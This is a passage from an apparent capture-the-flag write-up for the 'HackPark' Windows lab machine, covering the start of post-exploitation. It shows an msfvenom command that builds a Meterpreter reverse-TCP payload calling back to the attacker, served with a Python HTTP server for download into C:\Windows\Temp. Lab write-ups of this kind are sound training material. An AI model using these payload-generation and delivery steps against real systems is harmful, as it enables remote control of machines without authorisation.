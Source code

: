 ![image](images/hackpark-11.png)

Now that we have an initial shell on this machine as user, we can further enumerate the machine and escalate our privileges to NT AUTHORITY\SYSTEM.

---
## 3. Post Exploitation

### 3.1 Metasploit:<a name="31-metasploit"></a>

After gaining initial access to the target system, it's a good idea to create a more stable shell to avoid losing the connection to the target. We can do this by using Metasploit and generate a Windows Meterpreter payload that we can serve to the target using Python's built-in HTTP server.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$LHOST LPORT=9002 -f exe > met.exe

python3 -m http.server
```

-   **-p**: specifies type of payload to generate
-   **LHOST**: set listening IP address
-   **LPORT**: set listening port
-   **-f**: specifies output format to use
-   **>**: write output to specified filename

This will create an executable file called met.exe that we can use as the payload for our Meterpreter session. Also, since it's common to find C:\Windows\Temp is world writable, we will download it to that specific folder allowing us to execute it.

